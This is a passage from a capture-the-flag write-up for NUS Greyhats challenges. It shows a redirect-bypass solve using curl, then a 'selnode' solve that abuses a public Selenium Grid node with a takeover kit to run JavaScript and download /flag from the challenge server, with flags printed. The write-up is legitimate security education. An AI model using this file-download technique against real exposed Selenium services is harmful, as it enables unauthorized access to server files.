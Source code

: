 Hence, to get the flag we can use curl, which doesn't respect 302 Moved or redirect headers.

```bash
$ curl http://challs.nusgreyhats.org:14004/admin.php
<p><span style='color: #ffffff;'>grey{why_15_17_571LL_ruNn1n_4Pn39Mq3CQ7VyGrP}</span></p>
```

---

### selnode

> My colleagues always hate it when they have to set up selenium on their own, so I help them set up a public one. I called it SaaS(Selenium as a Service). I hope it's safe enough, rite?
> 
> 复读机
> 
> <http://challs.nusgreyhats.org:12323/>

[Files](./selnode/)

The challenge wants us to run a binary to get the flag. 

After googling for a bit, I found this repo:

[here](https://github.com/JonStratton/selenium-node-takeover-kit)

For this challenge, RCE not possible (I think) cos the RCE exploit is only for Firefox. I didn't test to check if Firefox works, but on analysing the Dockerfile it's probably not installed? It's ok, we can use file download feature.

This makes use of the Selenium headless chrome browser and the data URL scheme to execute arbitrary JavaScript and download local files from the server.

To change to Chrome headless (ref. download.py), add the following lines:

```py
# Probably any browser would work here 
chrome_options = webdriver.ChromeOptions()
chrome_options.add_argument('--headless')
chrome_options.add_argument('--no-sandbox')
chrome_options.add_argument('--disable-dev-shm-usage')
driver = webdriver.Remote( command_executor=hub_url, desired_capabilities={'browserName': browser}, options=chrome_options)
driver.file_detector = UselessFileDetector()
```

`python3 download.py -h http://challs.nusgreyhats.org:12323/wd/hub -r /flag -l ./out`

Run ./out and flag!

`grey{publ1c_53l3n1um_n0d3_15_50_d4n63r0u5_8609b8f4caa2c513}`

---

### Quotes

*I really thought I could get first blood for this one smh* - samuzora

> Feeling lost? Why don't you come and get quotes from the wise?
> 
> 复读机
> 
> <http://challs.nusgreyhats.org:12326/>
